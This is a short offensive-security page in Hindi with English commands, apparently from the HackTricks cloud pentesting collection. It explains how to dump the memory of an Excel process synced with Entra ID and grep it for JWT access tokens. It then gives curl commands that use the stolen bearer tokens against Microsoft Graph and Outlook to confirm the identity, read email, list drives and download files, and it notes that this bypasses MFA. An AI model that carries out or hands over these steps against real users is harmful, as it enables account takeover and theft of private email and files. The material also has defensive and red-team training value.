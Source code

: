 # Az - Processes Memory Access Token

{{#include ../../../banners/hacktricks-training.md}}

## **बुनियादी जानकारी**

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=OHKZkXC4Duw) में समझाया गया है, कुछ Microsoft सॉफ़्टवेयर जो क्लाउड के साथ समन्वयित होते हैं (Excel, Teams...) **स्मृति में स्पष्ट-टेक्स्ट में एक्सेस टोकन स्टोर कर सकते हैं**। इसलिए केवल **प्रक्रिया की** **स्मृति** को **डंप** करना और **JWT टोकन के लिए grep करना** आपको क्लाउड में MFA को बायपास करते हुए पीड़ित के कई संसाधनों तक पहुंच प्रदान कर सकता है।

चरण:

1. अपने पसंदीदा टूल के साथ EntraID उपयोगकर्ता के साथ समन्वयित एक्सेल प्रक्रियाओं को डंप करें।
2. चलाएँ: `string excel.dmp | grep 'eyJ0'` और आउटपुट में कई टोकन खोजें
3. उन टोकनों को खोजें जो आपको सबसे अधिक रुचिकर लगते हैं और उनके ऊपर टूल चलाएँ:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**ध्यान दें कि इस प्रकार के एक्सेस टोकन अन्य प्रक्रियाओं के अंदर भी पाए जा सकते हैं।**

{{#include ../../../banners/hacktricks-training.md}}
